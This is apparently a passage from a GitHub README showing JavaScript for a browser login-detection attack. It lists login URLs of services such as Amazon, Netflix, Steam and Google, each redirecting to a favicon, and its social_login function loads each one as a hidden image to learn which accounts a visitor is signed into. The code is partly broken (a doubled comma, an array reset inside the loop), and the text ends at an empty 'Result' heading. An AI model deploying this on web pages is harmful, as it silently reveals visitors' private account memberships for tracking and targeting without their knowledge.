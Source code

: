       }, {
          url: "https://www.amazon.com/ap/signin/178-4417027-1316064?_encoding=UTF8&openid.assoc_handle=usflex&openid.claimed_id=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.identity=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0%2Fidentifier_select&openid.mode=checkid_setup&openid.ns=http%3A%2F%2Fspecs.openid.net%2Fauth%2F2.0&openid.ns.pape=http%3A%2F%2Fspecs.openid.net%2Fextensions%2Fpape%2F1.0&openid.pape.max_auth_age=10000000&openid.return_to=https%3A%2F%2Fwww.amazon.com%2Ffavicon.ico",
          name: "Amazon"
      }, {
          url: "https://www.pinterest.com/login/?next=https%3A%2F%2Fwww.pinterest.com%2Ffavicon.ico",
          name: "Pinterest"
      }, {
          url: "https://www.netflix.com/Login?nextpage=%2Ffavicon.ico",
          name: "Netflix"
      }, {
          url: "https://de.foursquare.com/login?continue=%2Ffavicon.ico",
          name: "Foursquare"
      }, {
          url: "https://eu.battle.net/login/de/index?ref=http://eu.battle.net/favicon.ico",
          name: "Battle.net"
      }, {
          url: "https://store.steampowered.com/login/?redir=favicon.ico",
          name: "Steam"
      }, {
          url: "https://www.academia.edu/login?cp=/favicon.ico&cs=www",
          name: "Academia.edu"
      }, {
          url: "https://stackoverflow.com/users/login?ssrc=head&returnurl=http%3a%2f%2fstackoverflow.com%2ffavicon.ico",
          name: "Stack Overflow"
      },, {
          url: "https://accounts.google.com/ServiceLogin?service=blogger&hl=de&passive=1209600&continue=https://www.blogger.com/favicon.ico",
          name: "Blogger"
      }];


	function social_login(){
      networks.forEach(function(network)
      {
          var img = document.createElement('img');
          img.src = network.url;
  				social=[];
          img.onload = function() {
  					social.push(network.name);
          };
          img.onerror = function() {



          };
      });}
      
### Result
If you are login on any social media using that browser then result will be,
